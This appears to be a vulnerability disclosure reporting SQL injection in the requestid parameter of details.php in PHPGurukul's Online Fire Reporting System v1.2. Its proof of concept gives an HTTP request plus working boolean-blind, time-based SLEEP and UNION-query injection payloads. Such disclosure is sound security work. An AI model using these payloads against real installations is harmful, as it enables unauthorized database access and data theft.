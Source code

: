 # SQLi vulnerability in Online Fire Reporting System v1.2 of file details.php

**vender**:

- Online Fire Reporting System

**SoftLink**:

- [Online Fire Reporting System Project in PHP- PHPGurukul](https://phpgurukul.com/online-fire-reporting-system-using-php-and-mysql/)

**Vulnerable File**

- /details.php

**Version**

- V1.2

### POC

```http
GET /details.php?requestid=1 HTTP/1.1
Host: www.firereport.top
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: PHPSESSID=vhqmp6o0p6p8lf7sscpqhrp6tf
```



```
---
Parameter: requestid (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: requestid=1' AND 9757=9757-- XFyx

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: requestid=1' AND (SELECT 8941 FROM (SELECT(SLEEP(5)))mVRH)-- nNfM

    Type: UNION query
    Title: Generic UNION query (NULL) - 10 columns
    Payload: requestid=1' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7171627671,0x454d6c566c6f7a674d774f51534561624a4c564269736e6b57447667466c63754c4f5a4b76517155,0x716a767171),NULL,NULL,NULL,NULL,NULL,NULL-- -
---
```



![image-20250531181031743](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505311810071.png)





